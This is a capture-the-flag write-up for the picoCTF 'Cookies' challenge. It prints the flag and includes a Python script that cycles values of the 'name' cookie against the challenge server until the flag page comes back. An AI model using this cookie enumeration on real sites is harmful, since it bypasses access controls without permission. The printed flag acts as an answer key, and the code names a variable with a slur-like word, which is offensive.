



# Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


    - The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
    - The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`

        
    
    - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
    - Ok lets Explore further 

         Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

    - Ok, now lets try with something random in the box

         

    - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
    - We need to Find the valid cookie value for the flag, 

        ```
        import requests


        for i in range(100):
            print(i) #debugging
            changed_values = f"name={i}"
            niga={'Cookie': changed_values}


            r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

            if "picoCTF" in r.text:
                print(r.text)
                break
        ```


    - This Code Prints the Html oF the page with the flag. 
 
    - looking through the html we get the flag. 
